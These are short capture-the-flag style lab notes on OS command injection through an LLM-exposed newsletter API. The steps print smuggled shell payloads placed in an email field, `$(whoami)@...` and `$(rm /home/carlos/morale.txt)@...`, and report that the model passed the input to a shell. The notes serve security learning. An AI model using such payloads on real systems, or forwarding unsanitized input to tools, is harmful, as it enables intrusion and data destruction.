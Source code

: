 # 02 – OS Command Injection via API

- **Goal:** Delete `morale.txt` from Carlos's home directory.
- **Steps:**
  - LLM exposed Newsletter API → tested with normal email input.
  - Used: `$(whoami)@your-exploit-server` → command executed.
  - Used: `$(rm /home/carlos/morale.txt)@...` → file deleted ✅

- **Key Takeaway:** LLM forwarded unsanitized input to shell via backend API.


